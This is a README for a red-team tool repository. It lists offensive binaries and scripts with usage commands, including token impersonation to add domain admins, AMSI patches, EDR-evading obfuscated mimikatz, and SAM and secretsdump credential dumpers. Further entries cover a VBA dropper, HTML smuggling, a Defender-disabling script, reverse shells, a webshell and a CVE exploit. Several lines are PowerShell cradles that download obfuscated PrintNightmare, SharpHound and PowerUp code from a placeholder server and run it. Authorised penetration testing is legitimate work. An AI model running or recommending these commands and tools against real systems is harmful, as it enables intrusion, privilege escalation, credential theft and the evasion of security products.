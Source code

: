 # Red Team Arsenal

Some binaries/scripts that may be useful in red team/pentest exercises.

Most of the stuff here is far from fancy or the best solution possible, sorry :(... they just do the job and might come in handy for you in some way.

---

* adduserbyimpersonation.cpp: A modified version of sensepost's [impersonate](https://github.com/sensepost/impersonate) to only impersonate a token and add a new local admin/domain admin user to a computer/domain.
	*  `.\adduserbyimpersonation.exe list` to list tokens.
	*  `.\adduserbyimpersonation.exe adduser <token_ID> <username> <password> <server>` to add a new user impersonating the \<token_ID>. If \<server> is a DC, it will add a new domain user. If \<server> is a regular domain computer, it will add a new local user (SAM).
	*  `.\adduserbyimpersonation.exe addtodomaingroup <token_ID> <username> <domain_group> <server>` to add an existing domain user to a domain group.
	*  `.\adduserbyimpersonation.exe addtolocalgroup <token_ID> <username> <local_group> <server>` to add an existing local user/domain user to a local group (e.g. builtin "Administrators" group).
* GetNPUsers.exe: GetNPUsers.py from impacket compiled to .exe via pyinstaller.
* b_python.exe: BloodHound.py project compiled to .exe via cx\_Freeze. You may want to run this with `--disable-pooling` flag.
	* `.\b_python.exe -u <username> -p <pass> -d <domain> -dc <dc_fqdn> -gc <dc_fqdn> -ns <dc_ip> -c all --disable-pooling` 
* generate\_malicious\_lnk.ps1: Malicious .lnk generator (with wordpad.exe icon).
* CreateSymlink.exe: Precompiled "CreateSymlink.exe" from James Forshaw's
* html\_smuggling\_loader.html: A HTML smuggling template.
* hook\_detector.cs: EDR Hooks Detector in C#. Modify the code to include other win32 APIs.
* find\_cpassword\_sysvol.ps1: A simple ps1 script to search for "cpassword" references in SYSVOL folder.
* find\_pwd\_shared\_folder.ps1: A simple ps1 script to search for password/juicy references in a given shared folder. Modify `$ComputerName`, `$DomainName` and `$SharedFolder` variables accordingly.
* crackmapexec.exe: CrackMapExec compiled to .exe.
* crackmapexec_t.exe: CrackMapExec compiled to .exe with reduced entropy to bypass some specific EDRs (~~CS Falcon~~).
* AMSI\_bypass\_cross\_project.cpp: Patch AMSI in a given PID (C++). 
	* `.\AMSI_bypass_cross_project.exe <PID>`
* amsi\_patching\_go.go: Patch AMSI in a given PID (go). 
	* `.\amsi_patching_go.exe <PID>`
* amsipythonbypass.zip: AMSI patching implemented in Python. Extracted from FluidAttacks [post](https://fluidattacks.com/blog/amsi-bypass-python/).
* add\_user\_dll.cpp / adduser.dll: DLL that adds a new local admin user when loaded. Dynamically look up for local Administrators group name and add the user using windows APIs to avoid using net.exe/net1.exe.
* add\_user\_dll2.cpp: DLL that adds a new local admin user when loaded (via system(net.exe...) method).
* Invoke-Mimikatz.ps1: Powershell mimikatz with some minor bug fixes.
* SpoolSample.exe: SpoolSample precompiled binary (printerbug).
* bin\_to\_uuids.py: .bin to uuids converter, useful for UUID injection.
	* `python3 bin_to_uuids.py payload.bin`
* aes\_sektor7.py: AES256 encryption script extracted from Sektor7. Modified this to also save an `encrypted.bin` file that later may be imported as .rsrc in a maldev template. 
	* `python3 aes_sektor7.py payload.bin`, it will generate a encrypted.bin on /tmp.
* decrypt_aes.cpp: AESdecrypt sample.
* SharpPrintNightmare.exe: SharpPrintNightmare precompiled binary.
* obf-sharphound.ps1: SharpHound.ps1 obfuscated by pyfuscation.
	* `IEX (New-Object Net.WebClient).DownloadString("https://<SERVER>/obf-sharphound.ps1"); undertow -GdHcDvjN99 all`
* obf-pnightmare.ps1: PrintNightmare obfuscated by pyfuscation.
	* `IEX (New-Object Net.WebClient).DownloadString("https://<SERVER>/obf-pnightmare.ps1"); essentially -Dll "C:\Users\public\Desktop\adduser.dll"`
* obf-pup.ps1: Powerup obfuscated by pyfuscation.
	* `IEX (New-Object Net.WebClient).DownloadString("https://<SERVER>/obf-pup.ps1"); pave`
* rpivot.exe: rpivot.py compiled to .exe through cx\_freeze. Useful to establish SOCKS proxy communication in legacy powershell versions (e.g. v2).
	* `.\rpivot.exe --server-ip <IP> --server-port <PORT>`
	*  On remote server: `python3 server.py --server-IP <IP> --server-port <PORT> --proxy-ip 127.0.0.1 --proxy-port 1080`
* ch.exe: chisel.exe + limelighter project.
* netman\_sth.exe / netman\_sth\_x86.exe: A more stealth NetMan service trigger. Used to exploit a well known DLL hijacking when we have a writeable %PATH% directory in Windows Servers ([reference](https://itm4n.github.io/windows-server-netman-dll-hijacking/)). 
* WSuspicious.exe: WSUSpicious precompiled binary.
* Rubeus\_encrypted.exe: Rubeus encrypted by nimcrypt2.
* Rubeus.xml: Rubeus.xml to be executed with msbuild.exe.
* SharpKatz.xml: SharpKatz.xml to be executed with msbuild.exe.
* SharpPrintNightmare.exe: Precompiled SharpPrintNightmare.
* c.exe: Certify.exe + InvisibilityCloak obfuscation.
* dictionary.txt: Just a english dictionary to be appended on binaries to reduce entropy.
	* `cat dictionary.txt >> t.exe`
	* Check compressibility: `gzip -v -c t.exe > /dev/null`
* only\_sam\_dump.exe / only\_sam\_dump.py: Python script (compiled to .exe) to dump SAM/SYSTEM hives only. Based on secretsdump script. Created just to evade some EDR products.
* secretsdump.exe: secretsdump compiled to .exe via cx\_freeze.
* smbmap.exe: smbmap project compiled to .exe.
* weblogic\_pw\_decryptor.py: A decryptor to weblogic passwords contained in config.xml
* keytabextract.py: Python script to extract NTLM Hashes from KeyTab files
	* `./keytabextract.py <keytabfile>`
* mimi\_peruns\_fart.exe: A more stealth mimikatz.exe (donut + payload encryption + peruns fart applied)
* m\_obf2.exe: Mimikatz + Inceptor project
* mimikatz-nimcrypt2.exe: Mimikatz.exe encrypted with nimcrypt2 project
* dropper.vba: A simple VBA dropper. C# code extracted from .DOCX/.XLSX "comments" section (`ActiveDocument.BuiltInDocumentProperties("Comments").Value`)
* xor.cs: A XOR template in C#.
* CVE-2020-14882.py: Python script to exploit CVE-2020-14882.
* dwrite.dll: DLL used to exploit a DLL sideloading on Microsoft Teams (Microsoft Teams searches for this non-existent DLL on its startup).
* windows\_license.vbs: VBS to extract windows licenses... old content.
* disable-defender.ps1: A ps1 script to disable Windows Defender.
* dllinj.go: Process injection implemented in golang.
* screenshot.ps1: A ps1 script to take a desktop screenshot. Modify the `$File` variable to specify the location for saving the .bmp image.
* bleedhound.zip: An obfuscated version of BloodHound project.
* merge\_nessus\_files.py: Python script to merge multiple .nessus files.
* modshadowpass.sh: Useful to modify passwords when we have write privileges to /etc/shadow (this is NOT opsec-friendly :)
* reverse\_shell.py: A simple revshell in py... old content, you may want to use https://www.revshells.com/.
* reverse\_shell.sh: A simple revshell in sh... old content, you may want to use https://www.revshells.com/.
* systracing_cve-2020-0668.txt: Steps to reproduce CVE-2020-0668.
* webshell.aspx: ASP.NET webshell. A defined "AUTHKEY" is required to interact with it (line 8).

